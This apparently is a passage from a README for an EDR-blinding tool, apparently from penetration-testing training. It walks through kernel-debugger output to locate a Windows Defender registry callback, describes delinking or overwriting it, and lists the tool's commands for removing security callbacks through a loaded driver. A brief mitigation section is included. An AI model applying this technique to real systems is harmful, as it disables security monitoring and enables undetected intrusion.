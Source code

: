 The bytes will be `0x4024448948f88b48` and we need to substract `0x09` to get to the relative offset address of the callback array which is `007482e1` and read it.

<pre>
lkd> dq fffff800`a4baeabc L1
fffff800`a4baeabc  40244489`48f88b48
</pre>

`nt!CallbackListHead` is a linked list where each entry at offset 0x28 is the function being called.

<pre>
lkd> dqs nt!CallbackListHead L2
fffff800`a52f6d90  ffffd182`c338ff70
fffff800`a52f6d98  ffffd182`c7f74850
lkd> dqs ffffd182`c338ff70 L2
ffffd182`c338ff70  ffffd182`c37c2d30
ffffd182`c338ff78  fffff800`a52f6d90 nt!CallbackListHead
</pre>

It only contains one entry, let's check what's at offset 0x28 of that entry

<pre>
lkd> dqs nt!CallbackListHead L2
fffff800`a52f6d90  ffffd182`c338ff70
fffff800`a52f6d98  ffffd182`c7f74850
lkd> dqs ffffd182`c338ff70 L2
ffffd182`c338ff70  ffffd182`c37c2d30
ffffd182`c338ff78  fffff800`a52f6d90 nt!CallbackListHead
lkd> dqs ffffd182`c338ff70 L6
ffffd182`c338ff70  ffffd182`c37c2d30
ffffd182`c338ff78  fffff800`a52f6d90 nt!CallbackListHead
ffffd182`c338ff80  00000000`00000000
ffffd182`c338ff88  01db94d7`cec0b740
ffffd182`c338ff90  00000000`00000000
<span style="color: green;">ffffd182`c338ff98  fffff800`37f98000 WdFilter+0x28000</prte>
</pre>

We have 2 options to bypass this:

1- Removing the whole link from the linked list => delinking

2- Overwriting the function at offset 0x28 with a KCFG compliant function that just returns rendering the link useless.

## Mitigation
Defenders should not allow any new driver to be loaded onto a system, regardless of whether it is signed or not. If a user requires a driver, it must be reviewed and approved by IT. Security teams should configure their EDR or AV platforms to block any new driver from being loaded unless explicitly approved.

## Usage
<pre>
C:\Users\Vixx\Desktop\Tools\PEN-300\EDR Kernel Bypasses\CheekyBlinder-solution\x64\Release>CheekyBlinder.exe
Usage: CheekyBlinder.exe
 /proc - List Process Creation Callbacks
 /delproc <address> - Remove Process Creation Callback
 /delprocstealth <address> - overwriting the Process Creation function Callback
 /thread - List Thread Creation Callbacks
 /delthread - Remove Thread Creation Callback
 /installDriver - Install the MSI driver
 /uninstallDriver - Uninstall the MSI driver
 /img - List Image Load Callbacks
 /delimg <address> - Remove Image Load Callback
 /reg - List Registry modification callbacks